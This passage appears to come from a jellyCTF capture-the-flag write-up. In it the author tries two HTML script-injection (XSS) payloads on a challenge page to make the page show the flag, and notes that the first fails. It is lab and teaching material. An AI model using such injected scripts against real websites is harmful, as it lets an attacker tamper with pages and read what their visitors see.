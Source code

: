 Weird. I don’t know what to make of that. Really I should be using a regular expression though

| I'm a big fan\!\<script\>document.body.innerHTML \= document.body.innerHTML.match("jellyCTF\\{.\*\\}")\[0\]\</script\> |
| :---- |

![](images/image36.jpg)

It didn’t work. That probably means that the javascript didn’t execute because there was an error which probably means the regex failed to find a match.. Let’s try something else:

| \<pre id=this1\>hello\</pre\>\<script\>document.getElementById("this1").innerHTML \= document.body.innerHTML.slice(document.body.innerHTML.search("jellyCTF"))\</script\> |
| :---- |

![](images/image46.jpg)
